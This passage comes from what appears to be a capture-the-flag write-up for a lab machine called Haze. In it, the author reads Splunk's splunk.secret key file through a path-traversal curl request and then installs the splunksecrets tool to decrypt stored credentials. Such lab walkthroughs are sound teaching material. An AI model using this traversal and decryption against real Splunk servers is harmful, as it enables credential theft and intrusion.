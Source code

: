 But again we dont know what we have to look for so lets search something before ***look for a needle in a haystack***

### Splunk-Secret

https://community.splunk.com/t5/Knowledge-Management/What-is-the-splunk-secret-file-and-is-it-possible-to-change-it/m-p/331207 

![alt text](../assets/images/haze7.png)

and lets see if we can read secret.

```bash
curl -s http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/auth/splunk.secret
```

![alt text](../assets/images/haze8.png)

https://github.com/HurricaneLabs/splunksecrets

and i found it to decrypt it lets see if its usefull.

```bash
➜  Haze pipx install splunksecrets
  installed package splunksecrets 1.1.0, installed using Python 3.13.3
  These apps are now globally available
    - splunksecrets
done! ✨ 🌟 ✨
```
